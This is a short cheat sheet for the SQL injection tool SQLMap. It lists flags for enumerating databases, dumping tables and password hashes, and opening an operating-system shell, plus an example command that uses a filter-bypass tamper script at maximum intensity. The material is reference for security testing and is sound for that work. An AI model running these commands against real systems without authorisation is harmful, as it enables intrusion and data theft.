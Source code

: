 # SQLMap
SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in database systems. It supports various database types, fingerprinting, dumping data, bypassing security mechanisms, and even gaining shell access.

## Basic Usage
- `-u URL`  
  Specify the target URL.
- `--data=DATA`  
  Data string to be sent through POST (e.g. "id=1").
- `-p TESTPARAMETER`  
  Testable parameter(s).
- `--level=LEVEL`  
  Level of tests to perform (1-5, default 1).
- `--risk=RISK`  
  Risk of tests to perform (1-3, default 1).

## Enumeration
- `-a, --all`  
  Retrieve everything.
- `-b, --banner`  
  Retrieve DBMS banner.
- `--current-user`  
  Retrieve DBMS current user.
- `--current-db`  
  Retrieve DBMS current database.
- `--passwords`  
  Enumerate DBMS users password hashes.
- `--dbs`  
  Enumerate DBMS databases.
- `-D <DB NAME>`  
  Specify a database to enumerate.
- `--tables`  
  Enumerate DBMS database tables.
- `-T <TABLE NAME>`  
  Specify a database table to enumerate.
- `--columns`  
  Enumerate DBMS database table columns.
- `-C <COLUMN>`  
  Specify a database table column to enumerate.
- `--schema`  
  Enumerate DBMS schema.

## Data Extraction
- `--dump`  
  Dump DBMS database table entries.
- `--dump-all`  
  Dump all DBMS databases tables entries.
- `--is-dba`  
  Detect if the DBMS current user is DBA.

## Advanced Exploitation
- `--os-shell`  
  Prompt for an interactive operating system shell.
- `--os-pwn`  
  Prompt for an out-of-band shell, Meterpreter, or VNC.

## Usage Example
````bash
sqlmap -u "http://example.com/page.php?id=1" --dbs --batch --random-agent --level=5 --risk=3 --tamper=space2comment
````
This command performs an advanced SQL injection test on the target URL (-u). It:
- Retrieves the list of databases (`--dbs`)
- Runs in non-interactive mode (`--batch`)
- Uses a randomly generated user-agent (`--random-agent`)
- Increases scan intensity (`--level=5`) and risk factor (`--risk=3`)
- Attempts to bypass WAFs or filters using the space2comment tamper script (`--tamper=space2comment`)

---
### 🔗 References:
- [Official SQLMap Documentation](https://sqlmap.org)
- [SQLMap GitHub Repository](https://github.com/sqlmapproject/sqlmap)
